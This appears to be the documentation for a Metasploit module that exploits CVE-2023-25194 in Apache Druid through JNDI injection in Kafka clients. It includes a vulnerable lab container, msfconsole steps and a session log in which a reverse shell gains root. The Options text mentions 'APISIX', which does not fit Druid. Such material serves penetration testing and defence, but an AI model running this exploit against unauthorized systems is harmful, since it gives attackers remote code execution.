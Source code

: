 ## Vulnerable Application

Apache Kafka is an open-source distributed event streaming platform that is used for real-time data streaming and processing.
Kafka clients are a set of Java libraries that allow you to produce and consume messages from Apache Kafka.

In the version prior to 3.3.2, there is a JNDI injection issue in the Apache Kafka clients if an attacker is able to set the
`sasl.jaas.config` property for any of the connector's Kafka clients to `com.sun.security.auth.module.JndiLoginModule`.
It will allow the server to connect to the attacker's LDAP server and deserialize the LDAP response, which the attacker can
use to execute java deserialization gadget chains on the Kafka connect server. Attacker can cause unrestricted deserialization
of untrusted data (or) RCE vulnerability when there are gadgets in the classpath.

As Apache Druid dependeds on kafka-clients to connect to one of its datasources, making it out of the box vulnerable if using any
affected version.

The below docker compose file can be used to build a vulnerable container.

```yaml
version: '2'
services:
 web:
   image: vulhub/apache-druid:25.0.0
   ports:
    - "8888:8888"
```


## Verification Steps

Metasploit:

1. `./msfconsole`
1. `use exploit/multi/http/apache_druid_cve_2023_25194`
1. `set rhosts <rhost>`
1. `run`

## Scenarios

### Apache Kafka-clients 3.3.1 on Druid version 25.0.0

```
msf6 exploit(multi/http/apache_druid_cve_2023_25194) > exploit 

[*] Started reverse TCP handler on 172.18.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to trigger the jndi callback...
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Client sent unbind request
[*] Server stopped.
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.18.0.2:42908) at 2023-06-22 13:33:01 +0200

meterpreter > sysinfo
Computer     : 72fc9c4031a6
OS           : Linux 6.1.11-1-MANJARO #1 SMP PREEMPT_DYNAMIC Thu Feb  9 14:03:23 UTC 2023
Architecture : x64
Meterpreter  : python/linux
meterpreter > shell
Process 1112 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
find /opt/druid/extensions/druid-kafka-indexing-service/ -iname "kafka-clients*"
/opt/druid/extensions/druid-kafka-indexing-service/kafka-clients-3.3.1.jar
^C
Terminate channel 1? [y/N]  y
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 127.0.0.1 - Meterpreter session 1 closed.  Reason: User exit
```

## Options

### TARGETURI (required)

The path to the APISIX routes controller (Default: `/`).
